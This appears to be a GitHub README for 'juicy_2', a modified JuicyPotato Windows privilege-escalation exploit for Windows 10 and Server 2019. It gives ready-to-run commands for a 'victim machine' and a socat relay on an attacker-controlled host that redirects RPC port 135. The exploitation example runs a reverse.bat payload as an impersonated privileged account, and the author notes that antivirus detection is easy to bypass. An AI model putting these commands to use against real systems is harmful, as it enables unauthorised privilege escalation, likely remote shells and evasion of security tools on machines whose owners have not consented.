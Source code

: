 # juicy_2
juicypotato for win10 > 1803 &amp; win server 2019<br>
Disclaimer:
This is just a quick & dirty modification of our JuicyPotato in order to test valid clisd an to impersonate them for newer windows 10 and windows server 2019 platforms.
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<br>
Mandatory requisite is to have the possibility to reidirect traffic for port 135 on a forwarder machine under you control.
Feel free to improve the code, I was too lazy for this kind of stuff. 
<br><br>
For testing CLSID:<br>
juicy_2 -z -x [ip] of socat listener  -l [fake oxid resolver port] -n [local RPC server port] -c [CLSID] to test:<br>
Example:
  on victim machine:
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}
  on 192.168.1.1: <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995 
<br>For exploitation:<br>
  on victim machine:<br>
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat<br>
  on 192.168.1.1: <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995<br>
  
